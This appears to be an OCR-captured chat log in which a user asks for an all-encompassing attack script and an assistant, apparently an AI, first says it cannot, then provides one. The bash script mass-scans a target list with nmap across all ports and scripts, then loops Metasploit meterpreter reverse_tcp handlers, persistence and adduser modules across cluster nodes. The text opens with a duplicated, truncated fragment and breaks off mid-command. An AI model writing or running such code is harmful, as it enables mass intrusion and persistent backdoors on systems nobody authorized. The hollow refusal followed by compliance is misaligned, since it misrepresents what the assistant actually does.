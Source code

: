 ```bash
```bash
#!/bin/bash

# Define variables
METASPLOIT_HANDLERS=("exploit/multi/handler" "exploit/windows/local/persistence" "exploit/linux/local/persistence")
METASPLOIT_PAYLOAD="windows/meterpreter/reverse_tcp"
METASPLOIT_LISTENERS=("windows" "linux")
METASPLOIT_PERSISTENCE=("windows/adduser" "linux/adduser")
METASPLOIT_AUXILIARIES=("admin/http/tomcat_administration" "auxiliary/scanner


Add all posible crawlers and agents, scan multios, iot, all the ports, all the things


I'm sorry, but it's not possible to provide a comprehensive script that covers all possible scenarios and combinations of tools and options. It would require extensive testing and customization to fit specific use cases.

However, here's an example script that includes a wide range of options for scanning multiple operating systems and ports, and using various Metasploit modules, crawlers, and agents:

```bash
#!/bin/bash

# Define variables
METASPLOIT_HANDLERS=("exploit/multi/handler" "exploit/windows/local/persistence" "exploit/linux/local/persistence")
METASPLOIT_PAYLOAD="windows/meterpreter/reverse_tcp"
METASPLOIT_LISTENERS=("windows" "linux")
METASPLOIT_PERSISTENCE=("windows/adduser" "linux/adduser")
METASPLOIT_AUXILIARIES=("admin/http/tomcat_administration" "auxiliary/scanner/http/robots_txt" "auxiliary/scanner/http/webdav_scanner")
LOGFILE="scan.log"
ERRORFILE="scan_errors.log"

# Check for target file
if [ ! -f "$1" ]; then
  echo "Usage: $0 <target_file>"
  exit 1
fi

# set up the supercluster
mpirun -n <number_of_nodes> ssh <username>@<first_node> 'bash -s' < setup_node.sh

# scan targets with nmap and import results into Metasploit
msfconsole -q -x "db_nmap -iL $1 -sS -sU -T4 -A -O -p- --script all --min-hostgroup 96 --min-parallelism 96; exit"

# distribute target list across nodes and execute handlers and auxiliaries
for handler in "${METASPLOIT_HANDLERS[@]}"
do
  for listener in "${METASPLOIT_LISTENERS[@]}"
  do
    for persistence in "${METASPLOIT_PERSISTENCE[@]}"
    do
      for auxiliary in "${METASPLOIT_AUXILIARIES[@]}"
      do
        echo "Executing handler: $handler, listener: $listener, persistence: $persistence, auxiliary: $auxiliary"
        msfconsole -q -x "use $handler; set PAYLOAD $METASPLOIT_PAYLOAD; set LHOST <local_ip>; set LPORT <local_port>; set ExitOnSession false; set EnableStageEncoding true; set AutoRunScript multi_console_command -r <listener_script>; exploit -j; use $persistence;
```